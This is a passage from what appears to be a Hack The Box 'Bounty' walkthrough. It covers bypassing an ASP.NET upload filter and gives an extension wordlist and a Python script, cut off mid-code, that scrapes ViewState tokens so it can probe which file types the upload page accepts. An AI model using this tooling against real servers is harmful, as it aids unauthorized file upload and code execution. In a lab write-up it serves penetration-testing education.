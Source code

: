 It was successful to bypass the filtering to upload the `bigb0ss.aspx` script; however, when we try to browse the file in the `/uploadedfile` directory we get a 404 page.

![image](/assets/img/post/htb/bounty/06.png)


### Allowed File Extension Check

Next, let's do more thorough analysis on which file extensions are allowed VS. not. We can create a simple list of popular file extensions, such as below:

```console
$ cat extension.txt 
png
jpg
php
php5
php7
phtml
txt
html
asp
aspx
exe
config
js
```

Then, I created the following `checker.py` script to audit which file extensions are allowed:

```python
#!/usr/bin/python3

import requests
import sys
import re
from bs4 import BeautifulSoup


url = "http://10.10.10.93/transfer.aspx"
filename = "extension.txt"

def upload(f):
    s = requests.Session()
    r = s.get(url)
    #if r.status_code == 200:
    #    print("[INFO] Checking...{0}".format(f))
    #else:
    #    print("[ERROR] Can't connect...")
    #    sys.exit(1)

    p = BeautifulSoup(r.content, "html.parser")

    viewState = p.find(attrs = {'name' : '__VIEWSTATE'})['value']
    eventValidation = p.find(attrs = {'name' : '__EVENTVALIDATION'})['value']

    postData = {
```
